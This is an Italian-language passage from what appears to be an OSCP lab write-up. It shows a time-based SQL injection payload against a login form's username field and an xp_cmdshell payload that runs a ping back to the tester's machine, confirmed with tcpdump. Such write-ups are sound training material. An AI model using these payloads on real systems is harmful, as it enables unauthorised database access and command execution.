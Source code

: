 Provo ad accedere utilizzando le credenziali admin:admin, ma nulla da fare.

Allora provo a verificare se uno dei campi del form login è vulnerabile a SQLi.

Dopo vari tentativi, scopro che il campo username sembra essere vulnerabile alla time-based SQLi.

Il payload utilizzato è il seguente:

```bash
ciao'; waitfor delay '0:0:5'--
```

Inserendo questo payload ottengo il risultato "Invalid credentials. Please try again." dopo 5 secondi.

![](/OSCP/Immagini_OSCP/Medtech/192.168.171.121_port80_login_sql.png)

Provo quindi a verificare se è possibile utilizzare la funzione _xp_cmdshel_. Per farlo avvio tcpdump sulla mia macchina per catturare il traffico sull'interfaccia eth0:

```bash
sudo tcpdump -i eth0
```

E utilizzo questo payload:

```bash
ciao'; EXEC xp_cmdshell 'ping 192.168.45.212'; waitfor delay '0:0:5'--
```

Funziona!
